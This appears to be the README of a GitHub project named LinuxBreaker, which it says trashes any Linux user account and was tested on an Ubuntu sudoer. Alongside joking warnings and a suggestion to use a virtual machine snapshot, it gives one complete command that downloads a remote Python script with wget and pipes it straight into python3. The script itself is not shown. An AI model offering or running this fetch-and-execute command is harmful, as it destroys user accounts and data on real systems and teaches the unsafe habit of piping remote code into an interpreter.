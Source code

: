 # LinuxBreaker
Trashes any user account in Linux*

\*Tested on a sudoer in Ubuntu

(Do not) type the following command into bash:

    wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/linuxbreaker.py | python3

Try it out on a virtual machine. Make sure you have a recent snapshot.
